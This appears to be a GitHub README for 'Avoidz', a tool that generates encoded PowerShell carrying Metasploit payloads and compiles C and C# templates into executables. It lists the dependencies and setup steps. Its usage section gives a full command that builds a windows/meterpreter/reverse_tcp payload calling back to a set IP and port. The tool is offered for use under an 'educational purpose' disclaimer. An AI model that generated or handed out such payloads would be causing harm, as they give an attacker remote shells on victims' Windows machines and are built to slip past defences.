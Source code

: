## Avoidz v 1.0 
    Author: Mascerano Bachir [ dev-labs ]
    

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

<br /><br />

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 
 
## Screenshot:
![pic1](http://i.imgur.com/v3Jwj5g.png)
![pic2](http://i.imgur.com/L6GCvpJ.png)

<br /><br />

## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permitions
         cd avoidz
         sudo chmod +x setup.sh

    3°- Run setup script
         sudo./setup.sh == to check dependecies

    4°- Run avoidz tool == example
         sudo ./avoidz.rb == help command
		 sudo ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f temp1 == generate

## video tutorial: 
Avoidz v 1.0 temp1 generate :
